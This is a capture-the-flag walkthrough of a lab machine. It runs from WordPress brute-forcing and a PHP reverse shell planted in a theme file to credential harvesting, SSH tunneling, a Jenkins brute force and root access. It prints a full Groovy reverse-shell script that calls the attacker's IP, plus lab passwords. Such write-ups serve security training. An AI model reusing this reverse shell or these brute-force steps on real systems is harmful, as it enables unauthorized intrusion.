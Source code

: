 So lets deploy the machine and start enumerating.

![[Pasted image 20241116163637.png]]

We can see ssh open on port 22 and a http web server on port 80. If we enter on 10.10.199.61 we see Apache2 Ubuntu Default Page.

![[Pasted image 20241116163644.png]]

After some directory enumeration, we find the following:

/blog

/phpmyadmin

/javascript

/wordpress/wp-login.php

![[Pasted image 20241116163655.png]]

It is necessary to add internal.thm to our /etc/hosts file to navigate through the website.

Since we know admin is a user because he has a post on the website, we can brute force the login page using wpscan and rockyou.txt for the password.

![[Pasted image 20241116163705.png]]
So we found admin:my2boys as valid credentials now we can log in.

Now if we go to Appearence we can see some php files, let's create edit them and add our php reverse shell. Later with a nc listener we can get access. [http://internal.thm/blog/wp-content/themes/twentyseventeen/search.php](http://internal.thm/blog/wp-content/themes/twentyseventeen/search.php)

![[Pasted image 20241116163715.png]]

Now just access link of the edited php file and we are in.

Let's upgrade our shell

python -c 'import pty; pty.spawn("/bin/bash")'

Using linpeas we find some interesting information. wordpress:wordpress123 credentials

some phpmyadmin credentials we can check on config file.

![[Pasted image 20241116163724.png]]

phpmyadmin:B2Ud4fEOZmVq

Let's go into phpmyadmin page which we find before with directory enumeration and check what is in.

Nothing interesting.

Enumerating a little bit more trying to locate .txt for flags we find intersting file.

![[Pasted image 20241116163733.png]]

aubreanna:bubb13guM!@#123 Now we can connect through ssh.

Once in we see a txt file with a jenkins server which is not reachable from our machine. We need to do SSH tunneling to forward that server so we are able to reach it from our machine.

![[Pasted image 20241116163743.png]]

Now from port 3333 we can access the server.

![[Pasted image 20241116163752.png]]

Now we use hydra to burteforce admin user on jenkins.

![[Pasted image 20241116163832.png]]

We got credentials!! admin:spongebob

Now on jenkins at /script we can run Goovy scripts and get a reverse shell. String host="10.11.18.85";

int port=6666;

String cmd="/bin/sh";

Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())

{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while( si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try

{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close(); With a netcat listener we get access.

So once in the system we use find command to locate files like we did to see if we get something interesting.

/opt/note.txt seems similar to previous one.

We found root credentials on the file!! root:tr0ub13guM!@#123

Now we can ssh as root and get last flag.
